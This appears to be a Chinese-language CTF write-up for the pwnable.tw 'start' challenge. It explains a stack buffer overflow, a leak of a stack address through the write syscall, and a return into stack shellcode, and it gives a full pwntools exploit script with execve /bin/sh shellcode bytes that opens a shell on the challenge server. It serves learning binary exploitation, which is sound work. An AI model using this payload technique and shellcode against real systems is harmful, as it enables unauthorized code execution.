






# ReadMe
#0blog

溢出，系统调用read和write，写shellcode的话，就要得到shellcode的首地址了。
瞅了瞅Gadgets，似乎并没有什么可以利用的。



回到两个函数，read的话肯定是触发溢出，那么write的话，是不是可以泄漏点东西呢～～
程序没开保护而且静态链接，可以和这个[CTF-Angstromctf-2018 | Lambda](http://d4rkd0g.github.io/2018/03/29/CTF-Angstromctf-2018/#6-Hellcode)似的泄漏和esp相关的信息。
首先可以控制eip，接着因为要泄漏，所以就要跳到write。write的地址在0x08048087，改一下：


阿哦~直接回车的话，传入的数据会有一个“0a”覆盖掉后续地址中的内容，要么pwntools中的send，要么直接Ctrl+D：



Int 0x80调用write的时候打印的ecx中的数据，也就是会打印出0xffffd790，看起来好像一个栈地址。于是我们回到程序的开头：



因此，就可以得知关于栈的其他地址。
得到的地址也就是esp+4，之后执行read函数，读入的数据存在esp，然后esp增加0x14，最后ret。
算一算，构造一下payload：
`‘A’ * 0x14 + ret + shellcode`
其中ret即为泄漏的地址-4+0x14+4。

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
debug = 0

if debug:
    p = process("./start")
    gdb.attach(proc.pidof(p)[0])
else:
    p = remote("chall.pwnable.tw", 10000)

p.recvuntil("Let's start the CTF:")
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
payload = "A" * 20 + p32(0x08048087)
p.send(payload)
esp = u32(p.recv()[:4])
payload = "A" * 20 + p32(esp + 20) + shellcode 
p.send(payload)
p.interactive()
```



那么问题来了，对于这种应该怎么符号执行和Fuzzing来做。。。

附：
